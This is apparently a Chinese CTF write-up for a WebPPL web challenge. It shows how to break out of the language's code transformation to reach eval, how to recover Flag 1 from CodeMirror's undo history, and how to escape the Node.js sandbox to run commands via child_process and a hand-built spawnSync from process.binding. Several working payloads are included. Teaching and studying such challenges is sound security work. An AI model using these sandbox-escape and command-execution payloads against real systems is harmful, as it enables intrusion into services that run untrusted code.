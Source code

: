 # [Web] 概率题目概率过

- 命题人：xmcp
- 前端开发：300 分
- 后端开发：250 分

## 题目描述

<p>我们极为先进的概率编程语言已经完全超越了传统编程语言。</p>
<p>在传统编程语言中，每个 <code>if</code> 语句只能执行一个分支，因此逐个遍历所有程序状态需要指数的时间复杂度。在概率编程语言中，你会以为每个 <code>if</code> 语句可以同时进入两个分支，从而产生它不需要指数时间复杂度的错觉，但实际上它还是会逐个遍历所有程序状态，依然需要指数的时间复杂度。</p>
<p>为了解决理想与实际的矛盾，WebPPL 概率编程语言创新性地选择了 JavaScript 作为宿主语言。大家都知道，JavaScript 既可以在前端运行，也可以在后端运行，这就自然地引入了概率，使得你的 payload 在被观测之前既可能打的是前端，也可能打的是后端。运行一段 WebPPL 代码就像附身为原生孙悟空，手持如意时间棒，对我们的多元宇宙发号施令。后面忘了</p>
<p><em>↑ 上面这些怪话与解题方式并没有什么关联，就像许多其他题面一样</em></p>
<p><strong>总之，你可以提交一段 WebPPL 程序，然后选择在前端或者后端运行它。</strong></p>
<p><strong>提示：</strong></p>
<ul>
<li>本题跟概率编程没有什么关系。在设法实现 <code>eval</code> 后就可以不管 WebPPL 了，后面的部分是在环境中拿 Flag 的 JavaScript 编程题。</li>
<li>Flag 1：如果你的注意力不够集中，浏览器开发者工具的 Heap snapshot 功能或许可以帮助你。</li>
</ul>
<div class="well">
<p><strong>第二阶段提示：</strong></p>
<ul>
<li>Flag 1：前端使用的代码编辑器是 CodeMirror。</li>
<li>Flag 2：虽然你没有 <code>require()</code>，但是你有其他的好东西，甚至包括 <code>import()</code>。</li>
</ul>
</div>

**【网页链接：访问WebPPL网站】**

**[【附件：下载题目源码（web-ppl-src.zip）】](attachment/web-ppl-src.zip)**

**【终端交互：连接到题目】**

## 预期解法

### 拿到 eval

我们先玩一玩这个 WebPPL。发现它是一个基于 JavaScript 的概率编程语言，但我们完全不关心什么是概率编程语言，我们只想拿到 Flag。

既然它基于 JavaScript，我们先试着写点 JavaScript：

![image-20241020010957714](assets/image-20241020010957714.png)

啊这是什么玩意？

![image-20241020011028586](assets/image-20241020011028586.png)

啊这又是什么玩意？

稍微尝试即可发现一些端倪，它在运行我们的代码前，会进行一些 <del>糟蹋</del> 变换，使得我们很难接触到原生的 JavaScript 环境，各种语法也被搞得面目全非，比如不让用循环，也不让赋值（我去，函数式！）。如果你好奇它具体是怎么 <del>糟蹋</del> 变换的，可以这样看：

![image-20241020011427129](assets/image-20241020011427129.png)

总之我们的第一个目标是拿到一个类似于 `eval` 这样的函数，能让我们的代码不经过它的糟蹋直接执行。这样写后续的利用会方便很多。

**注意到**我们虽然不能直接 `eval()`，但是可以用任何中间带点的形式去调用  `eval`，包括但不限于：

```javascript
window.eval(1);
globalThis.eval(1);
eval.call(null, 1);
Function.constructor('return 1').call();
globalStore.eval = eval; globalStore.eval(1);
```

什么，注意不到？那可以去看看 [WebPPL 的文档](https://webppl.readthedocs.io/en/master/language.html#calling-javascript-functions)，文档解释了所有形如 `foo()` 的函数调用都会被理解为对概率函数的调用，因此在执行前都会被它糟蹋；而形如 `foo.bar()` 这样的中间带点的方法调用则被认为是使用 JavaScript 库函数，不会被糟蹋。在文档的结尾，它还贴心地提供了一个 `_top`（是 `window` 的别名）来帮我们调用全局函数：

![image-20241020012026260](assets/image-20241020012026260.png)

所以，最清真的拿到 eval 的方式应该是 `_top.eval()`。

### Flag 1

拿到 eval 之后，我们就可以在网页里执行任意代码，从而获取上一条命令留下的 Flag……等下，执行我们的代码时，上一条命令的结果已经被清空了，从哪拿 Flag？

这时只需**注意到** Flag 的内容曾经被输入到了文本框里，而这个文本框用的编辑器是 CodeMirror，它可以直接获取历史记录：

![image-20241020012358572](assets/image-20241020012358572.png)

所以可以构造出如下 payload：

```javascript
document.querySelector('.CodeMirror').CodeMirror.doc.history.done.forEach(d=>{
    if(d.changes)
        d.changes.forEach(c=>{
            let t = c.text.join('');
            if(t.includes('flag{'))
                document.title = t;
        });
});
```

再把这些代码套进我们已经获得的 eval 里即可。当然，用其他的姿势，比如不停 `undo`，效果也是一样的。

什么，注意不到？为了提升注意力，我们可以利用浏览器开发者工具的 Heap snapshot 功能检查 JS 环境里究竟有什么东西。我们直接搜索 flag 字符串：

![image-20241020012736805](assets/image-20241020012736805.png)

然后底下 “Retainers” 那一栏显示的就是所有可以到达这个字符串的路径。其中有一条路径特别有意思，因为它写着：

![image-20241020013430389](assets/image-20241020013430389.png)

我去，*User object reachable from window!* 这不就爽了吗。顺着这条链里面的图标看下去，正是我们刚才构造的那一坨 `document.querySelector('.CodeMirror').CodeMirror.doc.history.done`。

### Flag 2

与上一个 Flag 相同，我们可以轻松拿到 `eval`。只不过这次我们跑到了 NodeJS 环境里面，需要执行系统命令来拿 Flag。执行命令？这个简单：

![image-20241020013950733](assets/image-20241020013950733.png)

跑一下发现，哦豁，没有 `require`。不过**注意到**我们虽然没有 `require`，但是有 `import`。所以可以如法炮制：

```javascript
import('child_process').then(m=>m.exec('/printflag2', console.log));
```

发现虽然它报了个错，但 Flag 实际上也正常输出了。这里报错的原因是那个读 flag 的 C 程序的 `main` 函数没写返回值，所以它调用的 `puts` 的返回值被传递为了 `main` 的返回值。C 语言，很神奇吧！

![image-20241020014430695](assets/image-20241020014430695.png)

什么，注意不到 `import`？没关系，实际上出题的时候我也没注意到。但既然都拿到 `eval` 了，这题不就是个小号的 NodeJS 沙箱逃逸吗？随便在网上搜搜师傅们做完沙箱逃逸是怎么利用的：

![image-20241020015046826](assets/image-20241020015046826.png)

直接点开 [NetSPI 这个博客](https://www.netspi.com/blog/technical-blog/web-application-pentesting/escape-nodejs-sandboxes/)，它说可以用 `process.binding` 调用 NodeJS 底层的 API，从而手搓出来各种标准库：

![image-20241020015118011](assets/image-20241020015118011.png)

然后进一步给了一个 [Gist](https://gist.github.com/CapacitorSet/c41ab55a54437dcbcb4e62713a195822) 链接，里面有手搓出来的 `spawnSync` 函数，用来执行命令：

![image-20241020015240754](assets/image-20241020015240754.png)

所以，出题时我抄来的预期解是这样的：

```javascript
eval.call(global,
    "spawn_sync = process.binding('spawn_sync'); normalizeSpawnArguments = function(c,b,a){if(Array.isArray(b)?b=b.slice(0):(a=b,b=[]),a===undefined&&(a={}),a=Object.assign({},a),a.shell){const g=[c].concat(b).join(' ');typeof a.shell==='string'?c=a.shell:c='/bin/sh',b=['-c',g];}typeof a.argv0==='string'?b.unshift(a.argv0):b.unshift(c);var d=a.env||process.env;var e=[];for(var f in d)e.push(f+'='+d[f]);return{file:c,args:b,options:a,envPairs:e};};"+
    "(function(){var d=normalizeSpawnArguments.apply(null,arguments);var a=d.options;var c;if(a.file=d.file,a.args=d.args,a.envPairs=d.envPairs,a.stdio=[{type:'pipe',readable:!0,writable:!1},{type:'pipe',readable:!1,writable:!0},{type:'pipe',readable:!1,writable:!0}],a.input){var g=a.stdio[0]=util._extend({},a.stdio[0]);g.input=a.input;}for(c=0;c<a.stdio.length;c++){var e=a.stdio[c]&&a.stdio[c].input;if(e!=null){var f=a.stdio[c]=util._extend({},a.stdio[c]);"+
    "isUint8Array(e)?f.input=e:f.input=Buffer.from(e,a.encoding);}}var b=spawn_sync.spawn(a);if(b.output&&a.encoding&&a.encoding!=='buffer')for(c=0;c<b.output.length;c++){if(!b.output[c])continue;b.output[c]=b.output[c].toString(a.encoding);}return b.stdout=b.output&&b.output[1],b.stderr=b.output&&b.output[2],b.error&&(b.error= b.error + 'spawnSync '+d.file,b.error.path=d.file,b.error.spawnargs=d.args.slice(1)),b;})('/printflag2', []).stdout.toString()"
);
```

## 其他解法

这题的自由度非常高，因此各种选手都搞出了各种各样的解法。

比如，Flag 1 未必要拿到 eval，只需要保证你的 EXP 所有函数调用都带点就行。比如这样：

```javascript
_.assign(document, {title: JSON.stringify(document.querySelector(".wpedit")[Object.keys(document.querySelector(".wpedit"))[0]]._currentElement._owner._instance.refs.editor.getCodeMirror().doc.history.done[15]) });
```

也有选手**注意到** Flag 1 本来在闭包里的 `compileCache` 可以通过奇技淫巧拿到，令人震惊：

```javascript
const aaa = wpEditor.setup(document.querySelector('.btn'), {language:'javascript'});
aaa.refs.editor.getCodeMirror().setValue('document.title=Object.keys(compileCache)[0];')
aaa.runCode();
```

也有人直接给编辑器发 ctrl+Z 撤销的。同学你是不是刚做完 [web-crx](../web-crx) 回来？

```javascript
let textarea = document.querySelector('.CodeMirror textarea');
textarea.dispatchEvent(new KeyboardEvent('keydown', {
    key: 'z',
    code: 'KeyZ',
    keyCode: 90,
    ctrlKey: true,
    shiftKey: false,
    altKey: false,
    metaKey: false,
    bubbles: true,
    cancelable: true
}));

```

Flag 2 也可以从 `process.mainModule` 里拿到 require，比如：

```javascript
process.mainModule.require("child_process").spawnSync(...)
```

